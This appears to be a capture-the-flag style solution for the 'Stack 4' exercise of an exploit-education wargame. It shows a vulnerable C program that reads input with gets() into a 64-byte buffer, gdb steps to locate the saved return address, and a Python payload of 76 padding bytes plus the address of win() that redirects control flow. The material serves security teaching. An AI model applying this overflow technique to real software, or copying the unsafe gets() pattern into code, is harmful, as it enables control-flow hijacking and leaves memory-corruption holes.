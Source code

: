 
# Stack 4

### Task
```
  #include <stdlib.h>
  #include <unistd.h>
  #include <stdio.h>
  #include <string.h>

  void win()
  {
    printf("code flow successfully changed\n");
  }

  int main(int argc, char **argv)
  {
    char buffer[64];

    gets(buffer);
  }
```

### Solution
```
  python -c "print('A'*76)" | ./stack4
  gdb stack4
    print win
    disas main
    break *0x0804841d
    r
    x/2x $ebp
    x/24x $esp
  python -c "print 'A'*76 + '\xf4\x83\x04\x08'" | ./stack4
```
![stack 4(1)](./img/4(1).png)
![stack 4(2)](./img/4(2).png)
![stack 4(3)](./img/4(3).png)
